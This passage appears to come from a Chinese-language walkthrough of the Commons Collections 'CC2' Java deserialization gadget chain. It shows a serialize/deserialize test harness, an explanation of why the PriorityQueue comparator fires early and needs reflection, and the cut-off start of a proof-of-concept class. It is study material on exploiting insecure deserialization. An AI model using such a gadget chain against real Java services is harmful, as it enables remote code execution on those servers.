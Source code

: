 ```
        PriorityQueue queue = new PriorityQueue(comparator);

        queue.add(templates);
        queue.add(2);
        
        serialize(queue);
        deserialize();

    }

    public static void serialize(Object o) throws Exception {
        try (ObjectOutputStream oos = new ObjectOutputStream(Files.newOutputStream(Paths.get("ser.ser")))) {
            oos.writeObject(o);
        }
    }

    public static Object deserialize() throws Exception {
        try (ObjectInputStream ois = new ObjectInputStream(Files.newInputStream(Paths.get("ser.ser")))) {
            return ois.readObject();
        }
    }
}
```

这里会报错说找不到这个方法

![](./images/image-207.png)

跟进**PriorityQueue.add.offer.siftUp.siftUpUsingComparator**

发现在添加队列的时候，就会触发**compare**方法，而提前传进入的**InvokerTransform**会在传入的整数上调用**newTransformer**，但是找不到，因此会被提前执行。

所以仍然需要使用反射来进行设置

## POC

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.junit.Test;

import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CC2TEST {
    @Test
    public void test() throws Exception {

```